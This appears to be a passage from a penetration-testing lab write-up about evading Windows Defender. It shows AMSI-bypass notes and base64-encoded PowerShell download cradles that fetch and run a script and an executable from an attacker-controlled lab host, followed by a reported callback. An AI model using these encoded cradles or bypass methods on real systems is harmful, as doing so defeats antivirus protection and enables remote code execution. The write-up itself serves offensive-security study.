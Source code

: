 ```powershell
...
AMEngineVersion                  : 1.1.23080.2005
AMProductVersion                 : 4.18.23080.2006
AMRunningMode                    : Normal
AMServiceEnabled                 : True
AMServiceVersion                 : 4.18.23080.2006
AntispywareEnabled               : True
AntispywareSignatureAge          : 129
AntispywareSignatureLastUpdated  : 9/4/2023 7:28:08 AM
AntispywareSignatureVersion      : 1.397.358.0
AntivirusEnabled                 : True
AntivirusSignatureAge            : 129
AntivirusSignatureLastUpdated    : 9/4/2023 7:28:08 AM
AntivirusSignatureVersion        : 1.397.358.0
```

See info.txt for more.

#### Trying bypasses first

- Bypass AMSI and run in memory
- [AMSI documentation](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
	- *Starting in Windows 10, version 1903, if your AMSI provider DLL is not Authenticode-signed, then it may not be loaded (depending on how the host machine is configured). For full details, see [**IAntimalwareProvider** interface](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nn-amsi-iantimalwareprovider).*

![](patt-startinghereforamsibypasses.png)

The play being that once successful bypassing AMSI I may then have to execute in memory as there may be some nasty custom script to re-enable or restart AMSI every couple of minutes as AMSI can be unhooked, reflected state to itself, etc. 

From early adding a chunking and recombining into a big base64 blob 
```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.11.3.193/ipt.ps1')" | iconv --to-code UTF-16LE | base64 -w0  


powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMQAuADMALgAxADkAMwAvAGkAcAB0AC4AcABzADEAJwApAA==

```

Call back..
![](wehavehit.png)

```bash
echo -n "IEX(New-Object Net.WebClient).downloadFile('http://10.11.3.193/Word.exe')" | iconv --to-code UTF-16LE | base64 -w0  


powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAEYAaQBsAGUAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAxAC4AMwAuADEAOQAzAC8AVwBvAHIAZAAuAGUAeABlACcAKQA=
```
